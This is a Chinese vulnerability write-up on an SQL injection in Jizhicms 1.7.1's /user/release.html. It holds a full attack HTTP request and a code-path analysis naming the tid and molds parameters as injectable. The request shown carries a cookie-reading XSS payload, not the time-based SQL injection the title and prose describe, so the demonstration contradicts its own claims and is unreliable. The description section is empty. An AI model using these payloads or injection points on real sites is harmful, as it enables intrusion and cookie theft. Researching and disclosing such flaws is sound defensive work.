 Jizhicms 1.7.1 ./user/release.html sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

同样还是在发表文章这

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 153
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release/molds/article.html
    Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo; XDEBUG_SESSION=PHPSTORM

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=123&litpic=&description=123

![1.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId24.png)![2.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId25.png)可以看到有明显的时间延迟，存在基于时间的延迟注入为了直观的展示是否进行了拼接sql语句的操作，监控下sql语句的执行，在mysql监控工具中可以看到没有任何过滤就进行了sql语句的拼接，触发了sql注入漏洞![3.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId26.png)定位到漏洞函数release函数，重点关注下sql语句的拼接问题，一共有两处进行了sql的拼接，只要在进行拼接前没有进行过滤就会存在sql注入漏洞![4.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId27.png)其中\$this-\>classtypedata对应的是数据库中的classtype表中的数据![5.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId28.png)然后跟进到get\_fields\_data函数，根据xdebug调试代码的运行情况，发现fields为空，所以会直接返回data,其中并没有进行任何过滤![6.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId29.png)在release函数函数中只是要求\$w\[\'tid\'\]!=0即可，所以我们可以在tid参数和molds参数处构造sql注入语句![7.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId30.png)用slmap跑的结果![8.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7861\#toc-2
